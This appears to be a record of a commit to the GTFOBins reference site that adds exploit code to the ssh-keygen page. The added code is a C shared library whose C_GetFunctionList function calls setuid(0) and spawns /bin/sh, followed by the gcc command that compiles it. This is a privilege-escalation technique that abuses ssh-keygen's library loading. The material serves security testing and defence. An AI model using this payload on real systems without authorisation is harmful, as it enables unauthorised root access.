

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh-keygen.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
update ssh-keygen with exploit code

````diff
--- a/_gtfobins/ssh-keygen.md
+++ b/_gtfobins/ssh-keygen.md
@@ -1,4 +1,26 @@
 ---
+description: |
+  A Shared Library is loaded by the application and executed. You can create a shared library with the following code:
+  ```c
+  #include <unistd.h>
+
+  void C_GetFunctionList(){
+    char *argv[] = {"/bin/sh", NULL};
+    setuid(0);
+    execve(argv[0], argv, NULL);
+  }
+
+  int main(int argc, char const *argv[])
+  {
+    return 0;
+  }
+  ```
+  Compile it with:
+  ```sh
+  gcc -shared -o lib.so -fPIC lib.c
+  ```
+  Note: You can also define a constructor function to execute code when the library is loaded. But the `C_GetFunctionList` string needs to be present.
+
 functions:
   library-load:
     - description: |
````
